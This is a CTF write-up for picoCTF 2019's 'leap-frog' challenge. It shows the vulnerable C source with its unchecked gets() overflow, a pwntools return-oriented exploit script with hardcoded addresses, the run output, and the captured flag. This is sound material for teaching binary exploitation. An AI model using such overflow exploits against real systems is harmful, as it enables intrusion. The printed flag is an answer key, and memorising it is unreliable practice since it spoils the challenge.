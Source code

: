 # PicoCTF19 leap-frog

## Challenge

Can you jump your way to win in the following [program](https://2019shell1.picoctf.com/static/a7394c555b8cd0a7eac288c45367c49d/rop) and get the flag? You can find the program in /problems/leap-frog on the shell server? [Source](https://2019shell1.picoctf.com/static/a7394c555b8cd0a7eac288c45367c49d/rop.c).

## Hints

Try and call the functions in the correct order!

Remember, you can always call `main()` again!

## Solution

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define FLAG_SIZE 64

bool win1 = false;
bool win2 = false;
bool win3 = false;

void leapA() {
  win1 = true;
}

void leap2(unsigned int arg_check) {
  if (win3 && arg_check == 0xDEADBEEF) {
    win2 = true;
  }  else if (win3) {
    printf("Wrong Argument. Try Again.\n");
  } else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void leap3() {
  if (win1 && !win1) {
    win3 = true;
  } else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void display_flag() {
  char flag[FLAG_SIZE];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }
  fgets(flag, sizeof(flag), file);
  
  if (win1 && win2 && win3) {
    printf("%s", flag);
    return;
  } else if (win1 || win3) {
    printf("Nice Try! You're Getting There!\n");
  } else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```

It seems that in order to print the flag we first need to set `win1`, `win2`, `win3` to `true`, then call `display_flag()`.

There are three corresponding functions which seem to set these booleans, but `leap3()` has the impossible condition `win1 && !win1` and we can't jump past that check due to ASLR.

What if we just use the `gets()` function in Libc which is able to write anything from stdin into any writable segment of memory. So we can use `gets()` to set `win1`, `win2`, and `win3` to true, and skip calling all the `leap()` functions.

We can set all the variables to `true` with a payload that:

    - Padding of A's for a Buffer Overflow
    - gets_plt - first function to call
    - flag_addr - second function to call
    - win_addr - the buffer parameter being passed to gets

```python
from pwn import *
import sys
import subprocess

BINARY = './rop'
context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

if len(sys.argv) < 2:
    stdout = process.PTY
    stdin = process.PTY
    sh = process(BINARY, stdout=stdout, stdin=stdin)
    REMOTE = False
else:
    s = ssh(host='2019shell1.picoctf.com', user='samson', password="REDACTED")
    sh = s.process('rop', cwd='/problems/leap-frog')
    REMOTE = True

gets_plt = 0x08048430
win1_addr = 0x0804A03D
display_flag_addr = 0x080486b3
payload = 'A'*28
payload += p32(gets_plt)
payload += p32(display_flag_addr)
payload += p32(win1_addr)
sh.sendlineafter('> ', payload)
sh.sendline('\x01\x01\x01')
sh.interactive()
```

```bash
samson@pico-2019-shell1:/problems/leap-frog$ python ~/test2.py 
[*] '/problems/leap-frog/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './rop': pid 3016256
[*] Switching to interactive mode
picoCTF{h0p_r0p_t0p_y0uR_w4y_t0_v1ct0rY_f60266f9}
[*] Got EOF while reading in interactive
```

## Flag

`picoCTF{h0p_r0p_t0p_y0uR_w4y_t0_v1ct0rY_f60266f9}`